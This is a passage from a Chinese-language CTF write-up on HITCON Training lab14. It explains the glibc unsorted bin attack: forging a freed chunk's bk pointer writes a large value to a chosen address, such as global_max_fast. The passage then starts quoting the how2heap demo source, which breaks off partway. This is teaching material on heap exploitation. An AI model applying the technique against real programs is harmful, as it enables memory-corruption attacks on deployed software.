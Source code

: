    执行bck->fd = unsorted_chunks (av)后，由于bck就是&top，因此bins[0]更新。更新前：

   ![image-20181219113707614](img/2018-12-18-HITCON-Training-lab14-magic-heap-unsorted-bin-attack/image-20181219113707614.png)

   更新后：

   ![image-20181219132114048](img/2018-12-18-HITCON-Training-lab14-magic-heap-unsorted-bin-attack/image-20181219132114048-5196874.png)

## 0x02 unsorted bin attack原理

从上面的过程我们可以发现，从unsorted bin中malloc chunk出来时，根据bins[1]索引遍历unsorted bin。在取出chunk后，将该chunk unlink时，根据更新bins[1]为victim->bk，并更新bck->fd（victim->bk->fd）为&top，这样来实现unlink chunk。

因此**，当 unsorted bin 中的chunk unlink（非调unlink宏）时，如果我们可以控制中chunk的`bk`**为fake_bk，就可以向fake_bk->fd写入&top。因此，unsorted bin attack**达到的效果是可以修改某个地址的值为一个较大的值**，常见的利用姿势是修改：

- glibc中global_max_fast
- 程序运行中的一些变量的值。

## 0x03 example: how2heap unsorted bin attack

概念是非常抽象的东西，因此以how2heap为例，简单阐述利用过程。源码如下，程序的目的是修改栈中的某个变量的值。

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  fprintf(stderr, "This file demonstrates unsorted bin attack by write a large "
                  "unsigned long value into stack\n");
  fprintf(
      stderr,
      "In practice, unsorted bin attack is generally prepared for further "
      "attacks, such as rewriting the "
      "global variable global_max_fast in libc for further fastbin attack\n\n");

  unsigned long target_var = 0;
  fprintf(stderr,
          "Let's first look at the target we want to rewrite on stack:\n");
  fprintf(stderr, "%p: %ld\n\n", &target_var, target_var);

  unsigned long *p = malloc(400);
  fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",
          p);
  fprintf(stderr, "And allocate another normal chunk in order to avoid "
```